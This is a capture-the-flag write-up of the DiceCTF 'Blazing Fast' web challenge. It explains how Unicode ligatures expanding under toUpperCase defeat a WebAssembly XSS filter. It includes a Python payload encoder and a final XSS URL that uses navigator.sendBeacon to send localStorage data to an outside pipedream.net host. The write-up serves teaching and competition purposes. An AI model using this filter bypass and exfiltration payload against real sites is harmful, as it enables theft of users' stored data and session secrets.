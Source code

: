 # Blazing Fast
**category** : web\
**tags** : xss,js,web assembly,toUpperCase\
**url** : [https://blazingfast.mc.ax/](https://blazingfast.mc.ax/)\
**source** : [here](https://github.com/Ryn0K/CTFs/tree/master/dicectf/web/blazingfast)\
**author** : larry

# intro

![intro](https://i.imgur.com/yIuwY13.png)

`Note: i tried everything to writeup this begineer friendly, if you have any questions you can ask in comments.`

# Recon

so, whatever we write,on the basis of odd index converted to uppercase.

![1](https://i.imgur.com/OsgtTiR.png)

we cannot simply `xss`,due to waf

![2](https://i.imgur.com/PUcOWXL.png)

# Analysing source code

```js
let blazingfast = null;

function mock(str) {
	blazingfast.init(str.length);

	if (str.length >= 1000) return 'Too long!';

	for (let c of str.toUpperCase()) {
		if (c.charCodeAt(0) > 128) return 'Nice try.';
		blazingfast.write(c.charCodeAt(0));
	}

	if (blazingfast.mock() == 1) {
		return 'No XSS for you!';
	} else {
		let mocking = '', buf = blazingfast.read();

		while(buf != 0) {
			mocking += String.fromCharCode(buf);
			buf = blazingfast.read();
		}

		return mocking;
	}
}

function demo(str) {
	document.getElementById('result').innerHTML = mock(str);
}

WebAssembly.instantiateStreaming(fetch('/blazingfast.wasm')).then(({ instance }) => {	
	blazingfast = instance.exports;

	document.getElementById('demo-submit').onclick = () => {
		demo(document.getElementById('demo').value);
	}

	let query = new URLSearchParams(window.location.search).get('demo');

	if (query) {
		document.getElementById('demo').value = query;
		demo(query);
	}
})
```

1. wasm is loaded and its functions is used. 
2. anytext under `demo` or query parameter `demo` got pass to function `mock` for filtering and passing data to `wasm`.
3. we are using query parameter `demo` to pass payload.
4. first length got intialize for string provided and string length should not greater than `1000`.
5. character provided in string should not be greater than `128` , and every character pass to `write` of wasm by uppercase using `toUpperCase()` of js

```c
int length, ptr = 0;
char buf[1000];

void init(int size) {
	length = size;
	ptr = 0;
}

char read() {
	return buf[ptr++];
}

void write(char c) {
	buf[ptr++] = c;
}

int mock() {
	for (int i = 0; i < length; i ++) {
		if (i % 2 == 1 && buf[i] >= 65 && buf[i] <= 90) {
			buf[i] += 32;
		}

		if (buf[i] == '<' || buf[i] == '>' || buf[i] == '&' || buf[i] == '"') {
			return 1;
		}
	}

	ptr = 0;

	return 0;
}
```

6. in `wasm` side,`mock()` is used for filtering, odd character converted to uppercase by adding `32` and character should not be `<`,`>`,`&`,`"`.

# Vulnerability ?

from challenge features, we need to find xss but how ? these are the analysis i did during ctf.

1. by looking at challenge code logic ,`length` is intialized before `toUpperCase()`, so somehow we can truncate `length`(to manipulate `loop`) maybe ,we can inject desired characters.

2. To experiment and for poc i wrote this
```html
<!DOCTYPE html>
<script>
for(let i=0 ;i <1000000;++i){
  let c = String.fromCodePoint(i);
  let l_c  = c.length;
  let u = c.toUpperCase();
  let l_u = u.length;
  if(l_u > l_c){
    console.log(`${c}(${l_c}) -> ${u}(${l_u})`);
  }
}
</script>

```
![3](https://i.imgur.com/nMVlZDT.png)

3. you can see `toUpperCase()`, weird behaviour with different characters like (ﬃ,ﬄ,ß,etc...) and with different `lengths` after converting to `uppercase`.

4. So we can use ,this to truncate `length` of payload and inject `xss` payload.

# Exploitation

1. for alerting and confirming my payload work i tried this,

```https://blazingfast.mc.ax/?demo=ﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃ"><img src=1 onerror=alert(1)>```,i got error cause `alert()` converted to `ALERT()`

2. we need to do this,[https://phackt.com/xss-real-life-case-credentials-stealing](https://phackt.com/xss-real-life-case-credentials-stealing)

3. to make encoded js , i use this

```py
#!/usr/bin/env python3
from urllib.parse import urlencode
payload = ""
url = "https://enuz6evb9ok23xn.m.pipedream.net"
p = 'localStorage.getItem("flag")'
#pay = f'navigator.sendBeacon("{url}",{p})'
pay="alert('1')"
print(pay)
for c in pay:
  if c.islower() or c==' ':
    payload+="&#X"+hex(ord(c))[2:]+";"
  else:
    payload+=c
print(payload)
```

4. final payload 

```https://blazingfast.mc.ax/?demo=ﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃ"><img src=1 onerror=&#X6e;&#X61;&#X76;&#X69;&#X67;&#X61;&#X74;&#X6f;&#X72;.&#X73;&#X65;&#X6e;&#X64;B&#X65;&#X61;&#X63;&#X6f;&#X6e;("&#X68;&#X74;&#X74;&#X70;&#X73;://&#X65;&#X6e;&#X75;&#X7a;6&#X65;&#X76;&#X62;9&#X6f;&#X6b;23&#X78;&#X6e;.&#X6d;.&#X70;&#X69;&#X70;&#X65;&#X64;&#X72;&#X65;&#X61;&#X6d;.&#X6e;&#X65;&#X74;",&#X6c;&#X6f;&#X63;&#X61;&#X6c;S&#X74;&#X6f;&#X72;&#X61;&#X67;&#X65;.&#X67;&#X65;&#X74;I&#X74;&#X65;&#X6d;("&#X66;&#X6c;&#X61;&#X67;"))>```

# `dice{1_dont_know_how_to_write_wasm_pwn_s0rry}`

# final word....

this challenge was very nice, thanks to `larry`.